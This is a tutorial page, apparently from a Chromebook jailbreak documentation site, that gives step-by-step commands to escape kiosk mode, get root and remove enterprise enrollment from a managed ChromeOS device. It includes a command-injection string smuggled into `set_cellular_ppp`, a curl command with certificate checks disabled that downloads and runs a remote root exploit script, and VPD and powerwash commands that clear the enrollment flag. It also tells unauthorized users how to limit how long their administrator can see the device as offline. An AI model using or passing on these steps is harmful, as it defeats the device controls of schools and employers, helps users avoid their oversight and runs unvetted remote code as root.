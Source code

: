 ```yaml
---
title: "v81 Unenrollment - Kiosk Exploit"
pagination_next: fakemurk
pagination_prev: get-started
---
```


## Prerequisites

- A USB drive, 1gb or larger, formatted with FAT32

## Section I - Downloading CHRWN

In order to use the kiosk exploit, we first need a copy of CHRWN, which allows for crosh to be loaded in a kiosk environment. Download it [here](https://raw.githubusercontent.com/luphoria/chromeos-rootable/master/chrwn.zip). Unzip the file onto the very root of your USB drive.

## Section II - Launching the Kiosk

Press `Ctrl+Shift+Q` twice to sign out, then disconnect from the Wi-Fi and select any kiosk app. Wait for an error screen to appear. Press `Ctrl+Alt+Z` to enable ChromeVox and start spamming `Search+O`. You can hold down the search key, but must spam the O key. While spamming, click the "Troubleshoot" button and continue to spam until a browser window appears (which may take a few seconds). Then, open a new tab and press `Ctrl+Alt+Z` to disable ChromeVox. Visit `chrome://os-settings` to turn Wi-Fi back on.

## Section III - Opening the Extension

Go to `chrome://extensions` and enable developer mode (switch in the top-left of the screen), then select "Load Unpacked". Find your USB drive and select the CHRWN folder. Immediately, a crosh window will appear, and you will be able to continue.

## Section IV - Obtain Root Access

Inside of crosh, run the following command:

```sh
set_cellular_ppp \';bash;exit;\'
```

You should be dropped into a bash shell. If not, check the [troubleshooting guide](troubleshooting).

Now, run the following command to download and run the privilege escalation script:

```sh
cd ~/Downloads && curl -LOk https://raw.githubusercontent.com/rainestorme/resources/main/80.sh && bash <(cat ~/Downloads/80.sh)
```

You should be dropped into a bash shell with a **red** prompt. If not, check the [troubleshooting guide](troubleshooting).

## Section V - Unenrolling and Powerwashing

Run the following command:

```sh
vpd -i RW_VPD -s check_enrollment=0
```

Now, we need to powerwash the device to fully unenroll. Run the following commands:

```sh
echo "fast safe" >/mnt/stateful_partition/factory_install_reset
reboot
```

After powerwashing, your Chromebook will behave like a personal device and will be completely unrestricted.

:::danger

Your administrator wil be able to see that your device is "offline", and you should spend as little time as possible in this state if you are not authorized to be following this tutorial.

:::

## Section VI - Next Steps

:::tip[Next]

If you want to re-enroll but keep your Chromebook unrestricted, continue to [fakemurk](../fakemurk)

...or you could just keep your device like this, and use it as a personal device. The choice is yours.

:::